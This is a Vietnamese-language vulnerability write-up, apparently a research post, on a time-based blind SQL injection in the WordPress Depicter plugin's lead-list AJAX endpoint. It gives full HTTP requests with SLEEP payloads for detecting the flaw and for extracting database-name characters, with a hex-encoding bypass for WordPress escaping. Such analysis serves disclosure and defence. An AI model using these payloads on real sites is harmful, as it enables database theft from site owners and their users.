 ### Detect SQLi

Gửi **GET request** chứa payload SQLi.

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Payload được decode:

```sql
999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- -
```

Khi đó một phần của câu query trở thành

```sql
AND (lf.value like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) -- ' OR leadtable.content_name like '999%' AND (SELECT 1 FROM (SELECT SLEEP(5))a)) #')
```

![response time](resp_time.png "Thời gian phản hồi thể hiện payload hoạt động")

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính.

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
GET /wp-admin/admin-ajax.php?action=depicter-lead-list&s=999%25'+AND+(SELECT+1+FROM+(SELECT+IF(SUBSTRING(SCHEMA(),1,1)=0x77,SLEEP(5),1))a))+--+-+ HTTP/1.1
Host: localhost
...
Cookie: cookie_here
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì `s` được lấy từ **GET** request trong nên bị escape bởi [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress và bởi `sanitize_text_field`.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

---

## Conclusion
